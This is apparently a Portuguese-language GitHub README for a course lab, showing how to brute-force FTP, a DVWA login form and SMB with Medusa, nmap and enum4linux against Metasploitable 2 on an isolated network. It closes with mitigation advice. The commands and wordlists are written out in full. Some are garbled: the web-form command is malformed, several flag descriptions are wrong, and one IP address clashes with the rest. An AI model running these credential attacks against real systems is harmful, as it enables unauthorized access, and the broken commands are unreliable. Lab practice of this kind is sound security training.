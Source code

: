 **Projeto: Ataques de Força Bruta com Kali + Medusa (Ambiente Controlad**o)



Este repositório contém a documentação do desafio DIO: montar um ambiente com Kali Linux e Metasploitable 2, usar a ferramenta Medusa para executar ataques de força bruta em serviços (FTP, formulários web, SMB), registrar comandos, wordlists simples, evidências e recomendações de mitigação. Tudo pensado para ambiente de teste controlado (VirtualBox — host-only / rede interna).



⚠️ **Aviso legal: execute estes testes apenas em ambientes controlados e com autorização explícita. Ataques contra sistemas que você não possui/permissão são ilegais.**



* Conteúdo do repositório
* README.md (este arquivo)
* commands.txt (todos os comandos usados)
* images/ (screenshots)



**Objetivos do projeto:**



1. Configurar duas VMs (Kali e Metasploitable 2) no VirtualBox com rede host-only / interna.
2. Realizar ataques de força bruta com Medusa em FTP, formulário web e password spraying no SMB (com enumeração de usuários).
3. Documentar wordlists, comandos, validação de acesso e recomendações de mitigação.
4. Estrutura das VMs (configuração sugerida)
5. Instalar VirtualBox.
6. Criar rede Host-Only (ou Internal Network) em VirtualBox (ex: vboxnet0).
7. VM Kali: adaptador 1 → NAT (internet, opcional para instalar pacotes), adaptador 2 → Host-Only vboxnet0 (IP 192.168.56.102).
8. VM Metasploitable2: 1 adaptador → Host-Only vboxnet0 (IP 192.168.56.101).
9. Verifique conectividade: no Kali, ping 192.168.56.101.
10. Kali Linux ( medusa, nmap, enum4linux)
11. Metasploitable 2 (contém serviços FTP, SMB, DVWA etc).
12. Medusa (audit tool para brute force; módulo ex.: ftp, http\_form, smbnt).



**Comandos - varredura inicial**



Descobrir serviços com nmap:


```bash
nmap -sV -p 21,22,80,139,445 192.168.56.101
```


**Ataque FTP com Medusa**



Objetivo: força bruta contra usuário conhecido (ex: admin) com uma wordlist pequena.



\# Exemplo: testar usuário admin com wordlists no host 192.168.56.101

```bash
medusa -h 192.168.56.101 -U users.txt -P pass.txt -M ftp -t 6
```


**Explicação das flags:**



-h host alvo



-u usuário único (use -U para arquivo de usuários)



-P caminho da wordlist de senhas



-M ftp módulo FTP



-T 6 threads (ajuste conforme ambiente)



-f encerra ao encontrar credenciais válidas



Validação: após encontrar credenciais, faça login com ftp:


```bash
ftp 192.168.56.101
```


**Ataque a formulário web (DVWA) com Medusa (http\_form)**



DVWA costuma ter login em /dvwa/login.php. Exemplo de uso do módulo http\_form (sintaxe pode variar conforme versão do Medusa; ajustar conforme sua instalação):



\# Exemplo genérico de http\_form (substitua os campos conforme o formulário real)

```bash
-m PAGE: medusa -h 192.168.56.101 -U users.txt -P pass.txt -M http \\

-m FORM: 'username=^USER^\&password=^PASS^\&Login=Login' \\

-m 'FAIL=Login failed' -t 6
```

Validação: tente fazer login no navegador usando as credenciais encontradas



**Password spraying em SMB (com enumeração de usuários)**



* Fluxo recomendado:
* Enumerar usuários (usar enum4linux)
* Fazer password spraying: testar um conjunto pequeno de senhas em muitos usuários (evita lockouts por tentativa excessiva em um único usuário).



\# Enumeração com enum4linux

enum4linux -a 192.168.56.101 | tee enum4\_output.txt



\#Crie wordlists conforme ajuste:



echo -e "user\\nmsfadmin\\nservice" > smb\_users.txt



echo -e "password\\n123456\\nWelcome123\\nmsfadmin" > senhas spray.txt



Medusa smbnt (sintaxe genérica — ajuste conforme versão):



\# Usando arquivo de usuários (-U) e uma pequena wordlist (-P)

medusa -h 192.168.56.101 -U smb\_users.txt -P senhas\_spray.txt -M smbnt -t 2 -T 50



* Os parâmetros -t 2 (threads) -T 50 (timeout em segundos)
* ferramentas SMB de brute‑force normalmente tentam combinações de usuário × senha. Se você fornece uma lista de usuários e uma lista de senhas, a ordem pode ser: vertical (por usuário): para cada usuário tenta muitas senhas; ou horizontal / spraying: para vários usuários tenta poucas senhas comuns.



Validação: se houver credenciais válidas, usar smbclient para acesso:



smbclient -L //192.168.56.20 -U msfadmin



**Recomendações de mitigação (boas práticas):**



* Política de senhas fortes: comprimento mínimo, complexidade, bloqueio após tentativas falhas.
* Rate-limiting e account lockout (com política para evitar lockouts errôneos).
* Autenticação multifator (MFA) onde possível.
* Monitoramento/alertas: IDS/IPS, logs de autenticação e alertas para muitas tentativas de login.
* Segregação de serviços e atualizações (manter serviços atualizados).
* Hardening: desabilitar serviços desnecessários; configurar FTP seguro (SFTP/FTPS) ou desativar FTP.
* Whitelist de IPs para serviços administrativos, quando aplicável.
* Educação: conscientizar sobre reutilização de senhas e engenharia social.



